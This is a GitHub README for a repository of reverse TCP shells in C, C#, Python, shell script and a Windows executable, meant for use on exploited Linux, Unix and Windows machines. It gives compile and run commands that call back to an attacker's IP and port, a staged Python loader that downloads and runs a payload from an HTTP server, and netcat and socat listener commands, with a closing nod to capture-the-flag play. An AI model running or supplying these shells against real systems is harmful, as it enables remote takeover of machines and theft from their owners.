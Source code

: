 # Reverse-Shell-Lib
The following repository contains multiple versions of a reverse tcp netcat shell for use on exploited Linux or Unix machines

# C Reverse Shell
  In order to use this shell it must be compiled with the following command
  
    gcc reverse_tcp.c -o reverse_tcp
  
  It may then be called by:
  
    ./reverse_tcp [callback_ip] [port]
  
 
# C# Reverse Shell
  If dotnet is installed on the system you may use the C# program
  
  In order to use this shell it must be compiled with the following command
  
    dotnet build reverse_tcp.cs
    
  It may then be called by:
    
    ./reverse_tcp [callback_ip] [port]
  
# Python Reverse Shell
  If python3 is on the system you may use the reverse_tcp.py script
  
  Simply call it with the following command:
  
    python3 reverse_tcp.py [callback_ip] [port]
  
  # Staged Python Shell
  If you wish to run a staged shell you must first host the "reverse_tcp.py" payload on a HTTP server and you must configure its default callback address

  to call a staged shell run the following command:

    python3 reverse_tcp_staged.py http://[HTTPSERVER]/[route to reverse_tcp.py]
  
# Shell Script Reverse Shell
  This should be the most effective as it should run on all targets and is in fact the smallest payload
  
  Simply chmod it and call it like so:
    
    ./reverse_tcp.sh [callback_ip] [port]
    
 # Windows Reverse Powershell
  Since none of the other methods work on windows the reverse_tcp.exe is a .NET executable with the same ease of use as the others
  
  To run this on a target simply run it from the command line like so:
  
    .\reverse_tcp.exe [callback_ip] [port]
    
    
# Attacker Listener
  These reverse shells were all written for ease of use attackers can open a simple netcat or socat listener to receive the payloads
  
  Netcat:
  
    nc -nvlp [port]
    
  Socat:
  
    socat -d -d TCP4-LISTEN:[port] STDOUT
    
  Once your listener is up just wait for the payload to come your way and get them flags XD
    
